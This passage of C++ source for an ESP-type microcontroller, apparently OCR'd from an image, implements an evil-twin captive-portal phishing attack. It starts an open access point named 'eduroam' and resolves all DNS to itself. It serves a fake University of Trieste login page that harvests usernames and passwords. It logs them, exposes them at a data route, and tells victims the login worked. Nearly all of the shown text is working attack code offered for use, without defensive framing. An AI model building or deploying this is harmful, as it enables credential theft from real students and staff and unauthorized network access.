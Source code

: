 ```cpp
      width: 100%; padding: 10px; background-color: #0056b3; color: white; border: none; border-radius: 4px;
    }
    h3, p { text-align: center; }
  </style>
</head>
<body>
  <div class="container">
    <h3>University of Trieste's EDUROAM Network</h3>
    <p>Please enter your UniTS credentials to use EDUROAM</p>
    <form action="/login" method="POST">
      <input type="text" name="username" placeholder="Username (ex. s28xxxx)" required>
      <input type="password" name="password" placeholder="Password" required>
      <button type="submit">Login</button>
    </form>
    <p style="font-size: 0.8em;">By logging in, you accept the network usage policy.</p>
  </div>
</body>
</html>
)rawliteral";

void handleRoot() {
  server.send(200, "text/html", loginPage);
}

void handleLogin() {
  String user = server.arg("username");
  String pass = server.arg("password");

  capturedData += "Username: " + user + " | Password: " + pass + "\n";
  Serial.println("[+] Captured:");
  Serial.println("User: " + user);
  Serial.println("Pass: " + pass);

  server.send(200, "text/html", "<h3>Login successful. You may now browse the internet.</h3>");
}

void handleData() {
  server.send(200, "text/plain", capturedData);
}

void handleNotFound() {
  server.sendHeader("Location", "http://192.168.4.1/", true);
  server.send(302, "text/plain", "");
}

void setup() {
  Serial.begin(115200);
  delay(1000);

  // Start open AP
  WiFi.softAPConfig(apIP, apIP, netMsk);
  WiFi.softAP(ssid);  // open AP, no password

  Serial.println("[*] Open AP 'eduroam' started");
  Serial.print("[*] IP address: ");
  Serial.println(WiFi.softAPIP());

  // DNS: resolve all domains to ESP IP
  dnsServer.start(DNS_PORT, "*", apIP);

  // Web routes
  server.on("/", handleRoot);
```

[^1]: [Markdown - John Gruber](https://daringfireball.net/projects/markdown/)